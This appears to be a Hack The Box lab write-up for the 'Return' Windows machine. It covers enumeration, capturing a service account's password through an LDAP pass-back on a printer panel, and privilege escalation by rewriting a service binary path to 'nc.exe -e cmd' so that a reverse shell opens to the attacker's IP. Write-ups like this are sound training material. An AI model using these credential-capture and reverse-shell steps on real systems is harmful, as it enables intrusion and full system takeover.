




Box: Windows
Level: Easy
### Index
1. Box Information
2. Initial Nmap Enumeration
3. Web Enumeration - Port 80
4. LDAP Enumeration - Port 389,636,3268,3269 
5. LDAP Pass-Back Attack 
6. Kerberos Enumeration - Port 88
7. Privilege Escalation

### Box Information

Following information was obtained from the HTB Box Info Section.

```
Return is an easy difficulty Windows machine featuring a network printer administration panel that stores LDAP credentials. These credentials can be captured by inputting a malicious LDAP server which allows obtaining foothold on the server through the WinRM service. User found to be part of a privilege group which further exploited to gain system access.
```
### Nmap Enumeration

```
$ nmap -p- --min-rate=1000 -Pn -T4 -sC -sV 10.10.11.108
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-22 23:52 EDT
Nmap scan report for return.htb (10.10.11.108)
Host is up (0.042s latency).
Not shown: 65510 closed tcp ports (conn-refused)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: HTB Printer Admin Panel
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-08-23 04:11:39Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc         Microsoft Windows RPC
49681/tcp open  msrpc         Microsoft Windows RPC
49684/tcp open  msrpc         Microsoft Windows RPC
49696/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-08-23T04:12:27
|_  start_date: N/A
|_clock-skew: 18m33s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
```

### Web Enumeration - Port 80



Some of the info obtained through Burp

```
Server: Microsoft-IIS/10.0
X-Powered-By: PHP/7.4.13
```

Upon clicking on the `Settings` Tab, we can see the following screen.


Looks Like we have an option to change settings here and update. Looking at the source for the password was just `******`. 
### LDAP Enumeration - Port 389,636,3268,3269 

LDAP - Port 389
LDAPS - Port 636
Global Catalog LDAP In Active Directory - Port 3268
Global Catalog LDAPS in Active Directory - Port 3269

```
$ ldapsearch -H ldap://return.htb:389/ -x -s base -b  "dc=htb,db=local"
# extended LDIF
#
# LDAPv3
# base <dc=htb,db=local> with scope baseObject
# filter: (objectclass=*)
# requesting: ALL
#

# search result
search: 2
result: 1 Operations error
text: 000004DC: LdapErr: DSID-0C090A37, comment: In order to perform this opera
 tion a successful bind must be completed on the connection., data 0, v4563

# numResponses: 1

$ ldapsearch -H ldaps://return.htb:636/ -x -s base -b  "dc=htb,db=local"
ldap_sasl_bind(SIMPLE): Can't contact LDAP server (-1)
```

I ran the Following Nmap scan for just enumerating LDAP and LDAPS but nothing interesting comes out from it.
```
$ nmap -p389,636 --script="ldap* and not brute" -Pn -sV -sC 10.10.11.108
```

### LDAP Pass-Back Attack 

I was reading this [LDAP Pass-Back Attack](https://hacklido.com/blog/282-ldap-pass-back-attack-a-old-printers-story) Article. Okay Let me explain in my own words. There's a physical device that uses LDAP authentication and the web interface of the device configurations is accessible. Which was the case in our situation. You will run the NetCat listener on `Port 389` ONLY. Now using the Web Interface, you will try to change the settings (e.g: hostname/Server Name) and the Target will attempt to authentication with the credentials to the new host name where it will dump the password.  

First I will start the NetCat Listener on `Port 389`.
```
$ nc -lvnp 389
listening on [any] 389 ...
```

Next, using the Web Interface, I will change the Server Address from `printer.return.local` to My Kali IP `10.10.14.4` and Hit the Update Button.



Now once you Clicked on the Update button, You will notice that the NetCat listener has captured the credentials for the user `svc-printer`.

```
$ nc -lvnp 389
listening on [any] 389 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.11.108] 54537
0*`%return\svc-printer�
                       1edFg43012!!                                                                                                                   
```

Yes, That's your password for the user `svc-printer`. Trying to use Evil-WinRm and get my user flag.
```
$ evil-winrm -i 10.10.11.108 -u svc-printer -p '1edFg43012!!'
*Evil-WinRM* PS C:\Users\svc-printer\Documents> whoami
return\svc-printer
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> type user.txt
f0046ea2ea33f883bbac68832b652462
```

**So reading the machine information helps.** 
### Kerberos Enumeration - Port 88

```
$ nmap -p88 --script=krb5-enum-users --script-args krb5-enum-users.realm='return.local' -sV -sC 10.10.11.108
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-23 00:52 EDT
Nmap scan report for return.htb (10.10.11.108)
Host is up (0.043s latency).

PORT   STATE SERVICE      VERSION
88/tcp open  kerberos-sec Microsoft Windows Kerberos (server time: 2024-08-23 05:10:58Z)
| krb5-enum-users: 
| Discovered Kerberos principals
|_    administrator@return.local
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.56 seconds
```

A simple nmap scan enumerates the user administrator. Nothing Interesting again.

### Privilege Escalation

Now reading the last line of the machine Info might help us. It says `User found to be part of a privilege group which further exploited to gain system access.`. I am just guessing the **DEEP GUESS**. **PrintSpooler** Might work here. **TRUST ME SO FAR I HAVE NEITHER LOOKED AT WRITEUP NOR LOOKED AT ANY HINTS - PURE GOOGLE SEARCHES AND DIGGING UP EXPLOIT NOTES**.  Let's enumerate the list of privileges first.

```
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                         State
============================= =================================== =======
SeMachineAccountPrivilege     Add workstations to domain          Enabled
SeLoadDriverPrivilege         Load and unload device drivers      Enabled
SeSystemtimePrivilege         Change the system time              Enabled
SeBackupPrivilege             Back up files and directories       Enabled
SeRestorePrivilege            Restore files and directories       Enabled
SeShutdownPrivilege           Shut down the system                Enabled
SeChangeNotifyPrivilege       Bypass traverse checking            Enabled
SeRemoteShutdownPrivilege     Force shutdown from a remote system Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set      Enabled
SeTimeZonePrivilege           Change the time zone                Enabled
```

Okay so after spending two days of using BloodHound, SharpHound, winPEAS and what not, I gave up and looked up the writeup for the privilege escalation part. Not happy but I guess I need to learn something new now. Whatever!

So we have a lot of privileges enabled.  Also the user we have pawned is a member of few other groups as well. 

```
*Evil-WinRM* PS C:\tmp> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Server Operators                   Alias            S-1-5-32-549 Mandatory group, Enabled by default, Enabled group
BUILTIN\Print Operators                    Alias            S-1-5-32-550 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288
```

**It is always important to verify the privileges and the member of group for the pawned user**



Using the following command, I tried to get the list of services that this user can modify, but this user does not have access to the Service Control Manager. However, you can use `sc.exe query` command to check out the list of services that you can modify (Start, Stop, Restart).
```
*Evil-WinRM* PS C:\tmp> sc.exe query
[SC] OpenSCManager FAILED 5:

Access is denied.
```

**HOWEVER**, The user allowed to `config` a `VSS - Volume Shadow Copy` service. Basically, you should use one of the service when you run the `sc.exe query` command however, for this box, we took a blind approach and just use the `Volume Shadow Copy` service to config the `Binary Path`.

```
*Evil-WinRM* PS C:\tmp> sc.exe config VSS binpath="C:\tmp\nc.exe -e cmd 10.10.14.4 5555"
[SC] ChangeServiceConfig SUCCESS
```

Now as soon as you start the `VSS` service, the box will turn it on for like under a minute. But make sure your NetCat Listener is running so that you can catch the shell and get the root flag. At this point my NetCat Listener was running on `port 5555`.

```
*Evil-WinRM* PS C:\tmp> sc.exe start VSS

#### The following line printed within 45 sesconds. By that time, I got the root flag.
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.
```

```
$ nc -lvnp 5555
listening on [any] 5555 ...

connect to [10.10.14.4] from (UNKNOWN) [10.10.11.108] 65061
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>cd\
cd\
C:\>cd Users
cd Users

C:\Users>cd Administrator
cd Administrator

C:\Users\Administrator>cd Desktop
cd Desktop

C:\Users\Administrator\Desktop>type root.txt
type root.txt
0e9a1e60300874548179eadc9f740ce5
```


